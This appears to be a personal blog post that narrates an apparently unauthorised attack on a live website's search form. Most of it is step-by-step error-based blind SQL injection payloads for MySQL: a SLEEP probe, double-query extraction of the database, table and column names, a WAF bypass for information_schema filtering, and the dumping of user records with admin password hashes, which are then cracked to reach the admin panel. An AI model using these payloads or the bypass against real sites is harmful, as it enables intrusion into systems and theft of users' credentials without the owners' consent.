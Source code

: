 ```yaml
---
layout: post
title: The day of first hacking
---
```


Today I woke up and smelt that today is the day of the first hacking experience.

Find your target by smell. It usually stinks.

### First I searched for input forms. e.g. a simple search form of a stincky website. And input the most dangereous symbol ever created by a human: the apostrophe.

url: `/search/?'`

We get the following result:

> You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version.

Whoozay!!! Seems like this query is vulnerable to SQL Injection attack. Now we must determine type of attack we can use for injection.

###  Adding the 'always true statement'

url: `search/?' or '1'='1`

We get bad result: 

> Subquery returns more than 1 row. 

This means that our query is inside an another one, possibly in a where clause. Little example to demonstrate what I mean:

```sql
Select * From Orders Where field = (Select field from order_fields)
```

This means that our injection is Blind, we can’t see the result of the query. But as we can see the error(s) of the query we understand that we are dealling with error-based blind sql injection.

### To be sure we are on right way, we decided to GO TO SLEEP.

url: `search/?1' OR (SELECT SLEEP(3)) or '1'='1`

Please be quite our server is asleep.

There are some well known tactics to work in this situation, googling will give us some of that well-know samples. We just need to add some modifications so that the known tactics work for our case. 

###  Let’s try to get current database name..

url: 

``` sql
search/?1' or(select 1 from(select count(*),concat((select (select concat(0x7e,0x27,Hex(cast(database() as char)),0x27,0x7e)) from information_schema.tables limit 0,1),floor(rand(0)*2))x from information_schema.tables group by x)a) and '1'='1
```

Not Acceptable, 406 ! This is bad, first thing that is coming to mind is that we have an active WAF inplace and it is blocking requests based on `max_get_size`. But simplifying the query doesn’t provide results. After a little research I found out that WAF is blocking `information_schema.tables` combinations in url….
It was really sad, as the ammount of adrenalin in blood was already too high. After 1-2 hours of researching (googling really) I found out that there is a bypassing way for this restriction, here is it: we need to replace `information_schema.tables` to `information_schema 0.e.tables`

### After getting database name we need to get table names from `information_schema`.

Getting Table Results

```sql
search/?1' or(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,Hex(cast(table_name as char)),0x27,0x7e) FROM information_schema 0.e.tables Where table_schema=0xDATABASE_NAME_IN_HEX limit 1,1)) from information_schema 0.e.tables limit 0,1),floor(rand(0)*2))x from information_schema 0.e.tables group by x)a) and '1'='1
```

Click-Method and mighty hands method resulted in discovering about 95 tables, after retrieving them one by one we found the most interesting ones:

`tt_users, tt_admin_lists`

### Let’s start from the tt_admin_lists. ( We need to get column names, then by table name and column name get value again one by one )
Getting Column Names:

```sql
search/?1' or(select 1 from(select count(*),concat((select (select (SELECT distinct concat(0x7e,0x27,Hex(cast(column_name as char)),0x27,0x7e) FROM information_schema 0.e.columns  Where table_schema=0xDATABASE_NAME_IN_ HEX AND table_name=0xTABLE_NAME_IN_HEX limit 1,1)) from information_schema 0.e.tables limit 0,1),floor(rand(0)*2))x from information_schema 0.e.tables group by x)a) and '1'='1
```

Here is Result:

`admin _id, admin_login, admin_password`

Getting column data:

```sql
search/?1' or(select 1 from(select count(*),concat((select (select (SELECT concat(0x7e,0x27,Hex(cast(tt_admin_lists.admin_login as char)),0x27,0x7e) FROM `DATABASE_NAME`. tt_admin_lists LIMIT 1,1) ) from information_schema 0.e.tables limit 0,1),floor(rand(0)*2))x from information_schema 0.e.tables group by x)a) and '1'='1
```

Unfortunately this table was blank.

### After that we perform the same steps for the tt_users table and get the following results.
Column Names:

`User, pass, type, name`

And 5 users. (2 admins) with hashed passwords.

### HASH HACKING STEP

I don't know any hash hacking strategies and I ask my friend to get hacked my password hashes and after that admin panel was waiting for us.

